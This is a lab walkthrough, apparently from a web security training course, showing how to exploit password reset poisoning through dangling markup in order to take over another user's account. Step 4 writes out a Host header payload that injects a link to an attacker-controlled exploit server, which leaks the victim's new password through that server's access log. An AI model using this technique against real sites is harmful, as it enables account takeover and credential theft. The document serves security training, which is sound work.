 
# 6. Password reset poisoning via dangling markup
This lab is vulnerable to password reset poisoning via dangling markup. To solve the lab, log in to Carlos's account.
You can log in to your own account using the following credentials: `wiener:peter`. Any emails sent to this account can be read via the email client on the exploit server.

**Analysis**:
1. Go to the login page and request a password reset for your own account. Go to the exploit server and open the email client to find the password reset email. Observe that the link in the email simply points to the generic login page and the URL does not contain a password reset token. Instead, a new password is sent directly in the email body text.
2. In the proxy history, study the response to the `GET /email` request. Observe that the HTML content for your email is written to a string, but this is being sanitized using the `DOMPurify` library before it is rendered by the browser.In the email client, notice that you have the option to view each email as raw HTML instead. Unlike the rendered version of the email, this does not appear to be sanitized in any way.
3. Send the `POST /forgot-password` request to Burp Repeater. Observe that tampering with the domain name in the Host header results in a server error. However, you are able to add an arbitrary, non-numeric port to the Host header and still reach the site as normal. Sending this request will still trigger a password reset email:
    `Host: YOUR-LAB-ID.web-security-academy.net:arbitraryport`
4. In the email client, check the raw version of your emails. Notice that your injected port is reflected inside a link as an unescaped, single-quoted string. This is later followed by the new password. Send the `POST /forgot-password` request again, but this time use the port to break out of the string and inject a dangling-markup payload pointing to your exploit server:
    `Host: YOUR-LAB-ID.web-security-academy.net:'<a href="//YOUR-EXPLOIT-SERVER-ID.exploit-server.net/?`
5. Check the email client. You should have received a new email in which most of the content is missing. Go to the exploit server and check the access log. Notice that there is an entry for a request that begins `GET /?/login'>[…]`, which contains the rest of the email body, including the new password.
6. In Burp Repeater, send the request one last time, but change the `username` parameter to `carlos`. Refresh the access log and obtain Carlos's new password from the corresponding log entry. Log in as `carlos` using this new password to solve the lab.

**Workflow**:
1. Go to the login page and request a password reset for your own account. Go to the exploit server and open the email client to find the password reset email. Observe that the link in the email simply points to the generic login page and the URL does not contain a password reset token. Instead, a new password is sent directly in the email body text.